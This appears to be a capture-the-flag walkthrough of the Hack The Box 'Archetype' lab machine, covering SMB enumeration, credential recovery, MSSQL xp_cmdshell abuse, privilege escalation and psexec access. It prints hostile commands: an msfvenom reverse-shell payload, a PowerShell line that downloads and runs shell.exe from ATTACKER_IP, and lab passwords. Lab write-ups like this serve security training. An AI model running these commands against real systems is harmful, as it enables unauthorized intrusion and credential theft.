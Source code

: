```yaml
---
title: "[Starting Point] Tier 2: Archetype"
tags:
  - Very Easy
  - Windows
  - Samba
---
```


| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|  Very Easy |  |  10.129.82.74 |  |

---

### [ Which TCP port is hosting a database server? ]

Let's run a basic nmap scan on the target machine. As always, we load in standard scripts (-sC) and enable version enumeration (-sV).

```
sudo nmap -sC -sV -vv -T4 10.129.82.74
```

![screenshot1](../assets/images/archetype/screenshot1.png)

From the results, we can see that 4 ports are open: **135 (RPC)**, **139 (SMB)**, **445 (SMB)** and **1433 (MSSQL server)**

The database server is being hosted on port **1433**.

---

### [ What is the name of the non-Administrative share available over SMB? ]

Let's use `smbclient` to list out all of the shares on the SMB server that we can access:

```
smbclient -L 10.129.82.74
```

![screenshot2](../assets/images/archetype/screenshot2.png)

There is a non-administrative share of interest: **backups**

---

### [ What is the password identified in the file on the SMB share? ]

Let's login into the **backups** share:

```
smbclient //10.129.82.74/backups
```

![screenshot3](../assets/images/archetype/screenshot3.png)

There is a file called **prod.dtsConfig**. We can download it onto our local machine using the `get` command.

**Contents of prod.dtsConfig:**

![screenshot4](../assets/images/archetype/screenshot4.png)

*(A DTSCONFIG file is an XML configuration file used to apply property values to SQL Server Integration Services (SSIS) packages. The file contains one or more package configurations that consist of metadata such as the server name, database names, and other connection properties to configure SSIS packages)*

We can identify a password in the config file:

> M3g4c0rp123

---

### [ What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server? ]

mssqlclient.py

---

### [ What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell? ]

After doing some research online, I came across this useful [information](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15):

---

*xp_cmdshell spawns a Windows command shell and passes in a string for execution. Any output is returned as rows of text.*

---

Extended stored procedure: **xp_cmdshell**

---

### [ What script can be used in order to search possible paths to escalate privileges on Windows hosts? ]

[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

---

### [ What file contains the administrator's password? ]

Let's log into the MSSQL server using the **mssqlclient.py** script from impacket. *(Steps on how to do so can be found from [here](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server))*

From the config file earlier, we got the following set of credentials: 

> sql_svc : M3g4c0rp123

Also, from our nmap scan, we also know that the domain name is:

> ARCHETYPE

With that, we can log into the MSSQL server:

```
python3 mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.82.74
```

![screenshot5](../assets/images/archetype/screenshot5.png)

Now let's try to enable **xp_cmdshell**. If enabled, we will be able to run shell commands from within the SQL CLI.

```
enable_xp_cmdshell
```

![screenshot6](../assets/images/archetype/screenshot6.png)

Now that xp_cmdshell is enabled, let's try running a basic `whoami` command:

```
xp_cmdshell whoami
```

![screenshot7](../assets/images/archetype/screenshot7.png)

Nice, it works!

Now let's try to open a reverse shell into the machine. First, we have to generate a reverse shell payload for Windows. We can use  `msfvenom` to do so:

```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=ATTACKER_IP LPORT=4444 -f exe -o shell.exe
```

Once we have our reverse shell payload, we can run the following command in the MSSQL CLI:

```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://ATTACKER_IP:8000/shell.exe -outfile shell.exe; .\shell.exe"
```

This command does a few things:

1. It uses powershell and the `-c` option to run the subsequent commands.
2. It first navigates to `C:\Users\sql_svc\Downloads` as that is a directory which is writeable by us.
3. It then uses `wget` to download our generated reverse shell payload from our local machine. Make sure to have a HTTP server up and running first.
4. Finally, it executes the reverse shell script, thus opening up the reverse shell.


With a netcat listener up and running, we soon gain access into the target machine via the reverse shell:

![screenshot8](../assets/images/archetype/screenshot8.png)

Now that we're in, let's download WinPEAS onto the target machine (make sure to have a HTTP server running).

```
powershell -c wget http://ATTACKER_IP:8000/winPEASx86.exe -outfile winpeas.exe
```

Looking through the results of the WinPEAS scan, I noticed an interesting file:

![screenshot9](../assets/images/archetype/screenshot9.png)

Looks like there is a PowerShell history file called **ConsoleHost_history.txt**:

![screenshot10](../assets/images/archetype/screenshot10.png)

This file contains the administrator's password!

---

### [ Submit user flag ]

The administrator's password is:

> MEGACORP_4dm1n!!

Let's now use the **psexec.py** script from impacket to open a connection to the target machine using our newfound credentials:

```
python3 psexec.py administrator@10.129.82.74
```

![screenshot11](../assets/images/archetype/screenshot11.png)

And just like that, we're now in the machine as the administrator!

We can grab the **user flag** from the desktop of the sql_svc user:

![screenshot12](../assets/images/archetype/screenshot12.png)

---

### [ Submit root flag ]

The **root flag** can be found in the desktop of the Administrator user:

![screenshot13](../assets/images/archetype/screenshot13.png)
